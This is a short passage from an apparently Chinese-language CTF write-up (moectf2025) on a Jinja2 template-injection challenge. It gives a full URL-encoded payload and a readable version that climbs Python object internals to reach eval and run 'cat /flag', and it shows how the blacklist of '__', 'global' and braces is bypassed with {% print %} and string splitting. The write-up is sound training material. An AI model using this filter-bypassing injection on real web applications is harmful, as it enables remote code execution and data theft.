 ![image.png](./moectf2025wp/image_52.png)

戳啦！梭不出来！

接下来进入手搓环节，先上 payload:

```php
http://127.0.0.1:33363/?username={%25%20print({}[%27_%27%27_class_%27%27_%27]|attr(%27_%27%27_base_%27%27_%27)|attr(%27_%27%27_subclasses_%27%27_%27)()|attr(%27_%27%27_getitem_%27%27_%27)(207)|attr(%27_%27%27_init_%27%27_%27)|attr(%27_%27%27_glo%27%27bals_%27%27_%27))[%27_%27%27_builtins_%27%27_%27][%27eval%27](%27_%27%27_import_%27%27_(%22os%22).popen(%22cat%20/flag%22).read()%27)%20%25}&password=iwantflag
```

可读版：

```python
{% print({}['_''_class_''_']|attr('_''_base_''_')|attr('_''_subclasses_''_')()|attr('_''_getitem_''_')(207)|attr('_''_init_''_')|attr('_''_glo''bals_''_'))['_''_builtins_''_']['eval']('_''_import_''_("os").popen("cat /flag").read()') %}
```

先阅读手搓指南： [https://www.freebuf.com/articles/web/359392.html](https://www.freebuf.com/articles/web/359392.html)

我们的黑名单 blacklist = ["__", "global", "{{", "}}"]

`{{` 和 `}}` 可以通过 `{% print()%}` 绕过， `global` 通过字符串拼接绕过，关于这道题，其他师傅有更好的 payload。

![image.png](./moectf2025wp/image_53.png)

---